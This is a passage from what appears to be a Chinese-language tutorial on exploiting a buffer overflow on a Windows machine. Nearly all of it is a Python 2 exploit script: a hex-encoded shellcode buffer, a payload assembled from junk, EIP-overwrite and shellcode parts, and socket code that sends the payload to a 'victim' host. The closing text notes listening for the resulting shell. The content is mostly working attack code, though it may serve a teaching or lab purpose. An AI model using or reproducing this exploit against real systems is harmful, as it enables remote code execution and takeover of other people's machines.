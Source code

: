 ```
buf += "\xe2\x1a\x09\x13\x74\x23\x44\xe5\x98\x92\x31\xb0\xa7"
buf += "\x1b\xd6\x34\xd0\x41\x46\xba\x0b\xc2\x76\xf1\x11\x63"
buf += "\x1f\x5c\xc0\x31\x42\x5f\x3f\x75\x7b\xdc\xb5\x06\x78"
buf += "\xfc\xbc\x03\xc4\xba\x2d\x7e\x55\x2f\x51\x2d\x56\x7a"

payload = junk + eip + shellcode + buf 

print(payload)


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 
try:
  print "[-] Connecting to " + str(victim)
  s.connect((victim, port))
  s.recv(1024)
 
  # Send payload 
  print "[-] Sending payload.... ",
  s.send(payload)
  print "Done"
 
except:
  print "[-] Unable to connect to " + str(victim)
  sys.exit(0)
```

监听shell



![](../../.gitbook/assets/1564757532_5d444e1c6eb6f.png)

连接到windows机器
